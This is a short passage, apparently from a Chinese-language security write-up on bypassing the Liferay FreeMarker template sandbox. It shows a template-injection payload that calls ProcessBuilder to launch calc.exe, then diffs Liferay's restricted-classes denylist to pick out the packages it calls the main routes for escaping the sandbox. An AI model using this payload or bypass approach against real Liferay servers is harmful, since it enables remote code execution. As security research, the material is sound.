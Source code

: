 ```java
  <#assign value="com.liferay.portal.template.freemarker.internal.LiferayObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

但是这个很明显是没有什么用的。

```java
@Meta.AD(name = "allowed-classes", required = false)
	public String[] allowedClasses();

	@Meta.AD(
		deflt = "com.liferay.portal.json.jabsorb.serializer.LiferayJSONDeserializationWhitelist|java.lang.Class|java.lang.ClassLoader|java.lang.Compiler|java.lang.Package|java.lang.Process|java.lang.Runtime|java.lang.RuntimePermission|java.lang.SecurityManager|java.lang.System|java.lang.Thread|java.lang.ThreadGroup|java.lang.ThreadLocal",
		name = "restricted-classes", required = false
	)
	public String[] restrictedClasses();
```

```java
 @Meta.AD(name = "allowed-classes", required = false)
  public String[] allowedClasses();

  @Meta.AD(
      deflt = "com.ibm.*|com.liferay.portal.json.jabsorb.serializer.LiferayJSONDeserializationWhitelist|com.liferay.portal.spring.context.*|io.undertow.*|java.lang.Class|java.lang.ClassLoader|java.lang.Compiler|java.lang.Package|java.lang.Process|java.lang.Runtime|java.lang.RuntimePermission|java.lang.SecurityManager|java.lang.System|java.lang.Thread|java.lang.ThreadGroup|java.lang.ThreadLocal|org.apache.*|org.glassfish.*|org.jboss.*|org.springframework.*|org.wildfly.*|weblogic.*",
      name = "restricted-classes", required = false
  )
  public String[] restrictedClasses();
```

对比出来的差距有

```
com.ibm.*
com.liferay.portal.spring.context.*
io.undertow.*
org.apache.*
org.glassfish.*
org.jboss.*
org.springframework.*
org.wildfly.*
weblogic.*
```

这些类在最后都会成为我们bypass沙箱的主要支柱。还有一个小的bypass技巧。

![image-20220520101903529](C:\Users\MSI\AppData\Roaming\Typora\typora-user-images\image-20220520101903529.png)



### 内部的对象
